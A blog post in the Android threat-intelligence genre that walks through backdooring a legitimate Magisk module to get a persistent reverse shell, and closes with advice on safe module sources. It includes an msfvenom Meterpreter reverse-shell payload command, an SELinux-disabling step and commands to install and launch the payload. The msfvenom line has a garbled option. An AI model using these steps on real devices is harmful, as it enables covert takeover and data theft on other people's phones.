

---
author:
    name: nxb1t
    avatar: https://nxb1t.is-a.dev/assets/img/profile.jpeg
date: 2023-05-05
category:
  - Android
  - Threat Intelligence
tags: [Android, Threat Intelligence]
---

# Weaponizing Magisk Modules


## Introduction

---

!!! Warning Disclaimer
For Educational purpose only. <br>
Spreading Malware is a violation of the law, so please don't create and send any malware using the tactics discussed here to anyone. <br>
I am not responsible for any damage.
!!!

Hello Friends,<br>
I am an android enthusiast who loves rooting and modifying android devices. Magisk is an unavoidable element of this task. At some point of time, I wondered what would happen if my device get infected by a Malicious magisk module. Yeah, I often install magisk modules for several mods and tweaks, so there is a chance for this imaginary scenario. And the Malware sources would be shady Telegram channels and websites serving magisk modules.

In this article, we will go through an attack scenario where the threat actor weaponize legitimate Magisk modules for Malicious purpose.

So, what is Magisk and why its an attack vector ?

Magisk is a free and open-source rooting software for Android devices that is widely used in Android modding communities. As a Magisk user myself, I can attest to the fun and excitement that comes with rooting Android devices. With rooting, users can modify CPU schedulers and frequencies to overclock/underclock their device performance, spin up Kali Nethunter to hack their neighbor's wifi (just kidding!, don't do that, its not good 🙂), or completely change system files such as fonts, boot animations, and so on. These are just a few of the possibilities that one can explore by rooting their Android device.

## Magisk module 

---

One of the main features of Magisk is its module system, which allows users to automate most tasks by simply flashing a zip file. For example, the previously mentioned features, such as changing fonts, sounds, bootanimations requires typing many commands. But by creating a Magisk module, we can automate all this process with little to no user interaction.

### Magisk module structure

A Magisk module folder would look like this, I have only highlighted few files as I am only focusing on backdooring existing module than creating a completely new one.

```
/data/adb/modules
├── .
├── .
|
├── $MODID                  <--- The folder is named with the ID of the module
│   │
│   │      *** Module Identity ***
│   │
│   ├── module.prop         <--- This file stores the metadata of the module
│   │
│   │      *** Main Contents ***
│   │
│   ├── system              <--- This folder will be mounted if skip_mount does not exist
│   │   ├── ...
│   │   ├── ...
│   │   └── ...
│   │
│   │      *** Optional Files ***
│   │
│   ├── post-fs-data.sh     <--- This script will be executed in post-fs-data
│   ├── service.sh          <--- This script will be executed in late_start service
|   ├── uninstall.sh        <--- This script will be executed when Magisk removes your module
│   ├── system.prop         <--- Properties in this file will be loaded as system properties by resetprop
│   ├── sepolicy.rule       <--- Additional custom sepolicy rules
│   │
```

* **post-fs-data.sh** : Basically executes after installing the module. Handy for copying files around and like that.

* **service.sh** : Think of like a systemd service, executes on every boot and restart of the module daemon.

* **sepolicy.rule** : To set custom SELinux rules like enforcing.

You can refer the [Magisk Developer Guides](https://topjohnwu.github.io/Magisk/guides.html) to learn more on Magisk modules.

## The Attack Scenario

---

Attack Chain :-



For our example scenario, I chose the [ACC](https://github.com/VR-25/acc) magisk module by VR-25. Then I will include a malicious script in it to obtain reverse shell from the target device.

Description of the module :-

> ACC is an Android software mainly intended for extending battery service life. In a nutshell, this is achieved through limiting charging current, temperature, and voltage.

Most modern Android phones have built-in battery life-extending features, but many old phones doesn't support support this feature. ACC module helps in extending battery of old devices.

### Backdooring The Magisk module

First step is cloning the repo and collecting the original module files.

Unlike a Linux system, we can't use the normal /dev/tcp reverse shell in Android. Android networking is much more complex, so we need to rely on programs like Netcat or similar alternatives.

Unfortunately, Android doesn't come with Netcat preinstalled, but thankfully Magisk ships with a complete Busybox binary that contains `nc` and other useful tools.

This makes our task easier, the magisk busybox is located at : `/data/adb/magisk/busybox`


### Building the module

The repo had a build script named `build.sh`, this script automates the entire build process. 


Luckily our backdoor had no errors.

### Installing the module 

For convenience, I renamed the module zip to `acc_backdoored.zip` and pushed it to Downloads folder using adb.


Pheww, No errors, installation successful.


### Gaining reverse shell 


Although we can easily get a reverse shell with `nc`, I wasn't quite satisfied with it. I wanted something more, which was both easy to use and provided more functionality.

The best and easiest option out there was, of course, our beloved Metasploit Android Meterpreter. And so I created a meterpreter payload and served it on port 8080 using a Python HTTP server.

!!! Note
I am doing this locally, thats why my IP is in `192.168.X.X` range. 
!!!

```
msfvenom -p android/meterpreter/reverse_tcp LPORT=192.168.43.22 LPORT=4444 > evil.apk 
```


### Privilege Escalation 

We need to download the payload in the target device, again android doesn't come with curl, wget or similar tools.  But since we are in the magisk busybox environment, we can use `wget` to download the payload apk. We can then install the `evil.apk` using the `pm` command, which is the core of the conventional Apk Installer system.


!!! Note 
APKs installed through ADB and package manager (PM) are all monitored by Google Play Protect. However, the Metasploit payload is heavily signed by AV providers, hence it is blocked by default. To get things working, I had to disable the App Signature Verification for ADB/ADT in the Developer Options. So on a normal user's device, unless they disabled the verification, meterpreter can't be installed. But this could be bypassed with obfuscation and other AV bypass techniques.
!!!

Unfortunately, at first, it didn't work and gave the "Failed transaction error." This is because of SELinux enforcing, which prevents privilege escalation by preventing system service calls and other actions. In order to bypass this, we need to set SELinux enforcing to permissive mode. The `setenforce` command can be used to temporarily change SELinux to permissive mode.

```
$ setenforce --help
usage: setenforce [enforcing|permissive|1|0]

Sets whether SELinux is enforcing (1) or permissive (0).
```

After changing SELinux to permissive with the `setenforce 0` command, we can then install the apk and execute it without encountering any issues.

```bash
pm install evil.pk

am start -n com.metasploit.stage/com.metasploit.stage.MainActivity
```

The `am` (Activity manager) is used to start the MainActivity of our meterpreter payload.

Finally we got the meterpreter shell. This shell is persistent, whenever the user reboot their device both the `nc` reverse shell and meterpreter is loaded. All we need to do is keep the listener open.


## Assessing the Malicious module

---

Assessing module is pretty easy, we just need to extract the module zip file. Since our example module only have shell scripts, it won't be hard to detect. But like I said before, with magisk modules we can change system files, which includes libraries, binaries etc. So finding malicious binaries and libraries would be quite hard and would require great reversing skills.


## Reliable sources for downloading Magisk modules

---

This attack scenario could be real, As you can see there were literally no IOC a normal user can detect. Only chances would be, if the threat actor download all data, then the user can notice increased data usage and act accordingly. But if the attacker is patient enough, then everything will be compromised.

So here are some reliable and safe places where you can download Magisk modules :-

* Github
* [Fox's Magisk Module Manager](https://f-droid.org/en/packages/com.fox2code.mmm.fdroid/)
* XDA Forums
* Official Device community and development groups in Telegram


## Conclusion

---

In conclusion, installing Magisk modules from unknown sources comes with a significant risk that cannot be ignored. Its better to install only essential modules than installing every module you see online. Also checking whats inside the module would be definitely a good practice, when its not from official module github repo and likewise.
